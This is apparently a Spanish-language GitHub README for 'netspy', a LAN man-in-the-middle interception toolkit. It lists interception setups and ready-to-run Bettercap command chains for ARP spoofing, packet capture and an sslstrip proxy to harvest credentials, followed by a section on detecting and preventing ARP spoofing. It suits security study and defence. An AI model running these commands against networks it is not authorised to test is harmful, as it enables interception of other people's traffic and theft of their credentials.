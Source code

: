 # Interceptacion Ethernet

MiTM interceptación de trafico LAN en claro:

Estenarios:

1º.- Interceptación entre 2 puntos; 

Disponer de acceso a uno de los 2 puntos, e instalar en alguno de los extremos: Wireshark, dsniff, Smartsnif nifsoft, Bettercap, Ethercap, Extension navegador, netspy, tcpdump etc..

2º.- red LAN con HUB o switch "sin inteligencia"

Instalar un HUB en el medio de una red, por su modo de funcionamiento rebotan todos los pquete en todas las MAC y paquete Ethernet, par interceptación.

Instalar un PC conectado al HUB, con la  tarjeta  de red en modo promiscuo, que escuche todo el trafico de la red. Tener instalado Wireshark, netspy,etc

Modificar MAC Adrees de un PC conectado a la red, con la MAC Broadcast FF:FF:FF:FF:FF:FF:FF:FF que escurche todo el trafico de la red

3º.- En una red LAN con conmutadores Switch inteligente configurable :

Configurar port mirroning en el switch para que una copia de todo el trafico se encamine a una sola ethernet del switch, donde hay un PC en modo promiscuo con Wirehark, netspy, etc.. capturando 

En un PC conectado a la red instalar un Proxy, para hacer pasar, encaminar por el e interceptar el trafico!

En un PC conectado instala un Proxy trasparente. Usa ARP Spoofing, suplantación de MAC, para encaminar y poder ver e interceptar  el trafico de otros dispositivos!

4º.- Instalar  en: pasarelas, FW , routers, swithes, etc.. equipos en medio de las redes para interceptación: HUBS, switches port mirronig, proxyes, TAB .. 

<img style="float:left" alt="Escenarios interceptacion" src="https://github.com/hackingyseguridad/netspy/blob/master/MiTM.png">

#  https://www.bettercap.org/ Beettercap combina ARP Spoofing y proxy trasparte

<img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/netspy/blob/master/netspy.png">

# netspy

# 1.- Descubre elementos de red 2.- Captura y muestra en pantalla el trafico.

# Instalacion:

apt-get install bettercap

apt-get install netdiscover

git clone https://github.com/hackingyseguridad/netspy

cd netspy

chmod 777 netspy

# Uso.:

sh netspy

sh proxynetspy

netdiscover

IMPORTANTE: Para salir del modo de descubrimiento 'net probe on' y empezar a esnifar teclea 'exit'.

# Bettercap v2.9

Escanear toda la Red:

net.probe on; ticker on

Banear tarjet IP con ARP:

set arp.spoof.targets IP; arp.spoof on; set arp.ban on; net.probe on

Capturar trafico en fichero siff_all.pcap:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.output /tmp/sniff_all.pcap; set net.sniff.verbose false; net.sniff on

Ver Trafico:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on

Ver trafico web por proxy y extrae claves:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on; set http.proxy.sslstrip true

Ver trafico web por proxy y extrae claves de cifrados debiles:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on;  true; set http.proxy.port 80; set https.proxy.port 443; http.proxy on; https.proxy on; set http.proxy.sslstrip


Versiones antiguas Bettercap: 1.6.1 y 1.6.2 en Python

El ARP Spoofing, o envenenamiento ARP, es un tipo de ataque que puede comprometer seriamente la seguridad de una red local. Consiste en la manipulación de la MAC Addres y por tanto tabla ARP de un dispositivo para redirigir el tráfico de red hacia el atacante, permitiéndole interceptar y modificar la información que fluye por la red.
¿Cómo detectar un ataque de ARP Spoofing?
Este tipo de ataque suele ser silencioso y difícil de detectar a simple vista, es fundamental contar con herramientas y técnicas específicas. P.ej:

Herramientas de Detección:

•	Sistemas de detección de intrusiones (IDS): Un IDS bien configurado puede detectar anomalías en el tráfico de red, como un aumento repentino en el número de solicitudes ARP o respuestas ARP falsas.

•	Sniffers de paquetes: Herramientas como Wireshark te permiten analizar el tráfico de red en tiempo real. Al examinar los paquetes ARP, puedes identificar patrones inusuales o respuestas ARP falsas.

•	Herramientas especializadas: Existen herramientas diseñadas específicamente para detectar ARP Spoofing, como ARPwatch, que monitorea la tabla ARP y alerta sobre cambios inesperados.

Técnicas de Detección:
•	Problemas de conectividad: Dificultad para acceder a ciertos sitios web o servicios de red.
•	Monitoreo de la tabla ARP: Revisa regularmente la tabla ARP de los dispositivos de tu red para identificar entradas desconocidas o duplicadas.
•	Análisis de registros: Examina los registros del sistema y de las herramientas de seguridad para buscar cualquier indicio de actividad sospechosa, como intentos de acceso no autorizados o cambios en la configuración de la red.
•	Pruebas de penetración: Realiza pruebas de penetración periódicas para identificar vulnerabilidades en tu red y evaluar la efectividad de tus medidas de seguridad.
•	Uso de protocolos de seguridad: Implementa protocolos de seguridad como DHCP Snooping, IP Source Guard y Dynamic ARP Inspection (DAI), que pueden ayudar a prevenir y detectar ataques de ARP Spoofing.
Síntomas de un Ataque de ARP Spoofing:
Aunque no siempre son evidentes, algunos síntomas pueden indicar un ataque de ARP Spoofing:
•	Pérdida de paquetes: Interrupciones en la comunicación o lentitud en la red.
•	Actividad sospechosa en la red: Detección de tráfico no autorizado o intentos de acceso a recursos sensibles.
•	Cambios inesperados en la configuración de red: Modificaciones no autorizadas en la configuración de los dispositivos de red.

Prevención del ARP Spoofing:
•	Configuraciones estáticas: Establece entradas ARP estáticas para dispositivos críticos, como routers y servidores.  habilitar "client isolation",
•	Segmentación de redes: Divide tu red en segmentos más pequeños para limitar el impacto de un posible ataque.
•	Actualizaciones de software: Mantén todos tus dispositivos actualizados con los últimos parches de seguridad.
•	Educación de los usuarios: Sensibiliza a los usuarios sobre los riesgos de los ataques cibernéticos y cómo protegerse.
•	implementar nuevo ARP firmado con certificado y clave PKI

https://github.com/hackingyseguridad/mitm

www.hackingyseguridad.com
